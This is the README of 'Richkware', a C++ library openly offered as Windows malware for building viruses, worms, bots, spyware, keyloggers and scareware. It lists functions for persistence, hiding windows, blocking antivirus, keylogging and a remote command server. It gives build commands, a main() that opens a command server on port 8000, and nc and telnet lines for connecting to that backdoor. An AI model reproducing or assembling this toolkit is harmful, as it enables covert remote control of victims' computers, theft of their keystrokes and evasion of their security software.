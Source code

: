 # Richkware
Malware for Windows, written in C++.

##Description

It's a library of network and OS functions, that you can use to create a malware.
The compositions of these functions, according to different logics permit at the application 
to assume behaviors associable to the following types of malware:

- Virus
- Worms
- Bot
- Spyware
- Keylogge
- Scareware

##FUNCTIONS

###Network

- **StartServer**: start a server on an arbitrary port, to receive commands from the Internet, 
thus allowing to run commands or make changes to application state;
- **RawRequest**: send a request to a server;

###System

- **SaveValueReg** and **LoadValueReg**
- **SaveSession** and **LoadSession**: save the application state(encrypted) in the system;
- **IsAdmin** and **RequestAdminPrivileges**: check and require administrator privileges;
- **Persistance**: install itself permanently in the system.
- **StealthWindow**: hide applications;
- **OpenApp**: open arbitrary applications;
- **BlockApps** e **UnBlockApps**: block and Unblock applications (antivirus, ...);
- **Keylogger**

###Cryptography

- **EncryptDecrypt**

###Other

- **RandMouse**: move randomly the mouse cursor
- **Hibernation**: hibernate system;

##COMPILE

###Using g++ compiler (GCC, GNU Compiler Collection)

	g++ -O3 -c -o Richkware.o Richkware.cpp

	g++ -static-libgcc -static-libstdc++ -o Richkware.exe Richkware.o main.o -lws2_32 

###Using Microsoft C++ compiler (Visual Studio)
- C/C++ > Proprocessor > Proprocessor Definitions, add "\_CRT\_SECURE\_NO\_WARNINGS" 
- Linker > Input > Additional Dipendencies, add "Ws2_32.lib"


##REMOTELY COMMAND EXECUTION

Call function **StartServer** in the main, that starts server on port 8000.

	int main () {
		Richkware richkware ;
		richkware.StartServer ("8000");
		return 0;
	}

###Connect from Unix systems

In Unix systems, you can use **netcat**.

	nc <serverName> 8000

###Connect from Windows

In Windows, you can use **telnet**.

	telnet <serverName> 8000